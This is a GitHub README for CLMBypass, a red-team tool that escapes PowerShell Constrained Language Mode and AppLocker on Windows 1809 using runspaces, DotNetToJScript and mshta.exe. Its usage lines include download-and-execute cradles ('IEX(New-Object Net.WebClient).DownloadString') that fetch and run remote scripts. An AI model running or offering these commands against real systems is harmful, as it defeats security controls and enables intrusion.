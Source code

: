 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

#### key
- **[A]** denotes applocker bypass for 1809
- **[C]** denots Constrained Language Mode bypass for 1809

<hr>

### contents
- CLMBypass.hta **[AC]**
  - The WScript.Shell creates a new runspace
  - `payload.ps1` is downloaded and executed in FullLanguage mode
  - **Usage:** mshta.exe http://localhost/CLMBypass.hta`
- CLMBypass.js **[AC]**
  - Realized this is redundant... the hta execution already creates another runspace with FullLanguage mode. Leaving it here just in case.
  - **Usage:** On line `131` you can add something like `o.Main("IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')");`
  - when the page is loaded, this will execute. If you use DotNetToJScript on your own, the functions and classes *must be public* and the class must have the `[ComVisible(true)]` tag (see Program.cs for an example).
- CLMBypass.exe **[C]**
  - Compiled as PE32 .NET Framework 4.0
  - **Usage:** `.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"`
- Program.cs
  - C# source code for CLMBypass.dll, a little outdated for the PE
- payload.ps1
  - payload to be run in FullLanguage mode
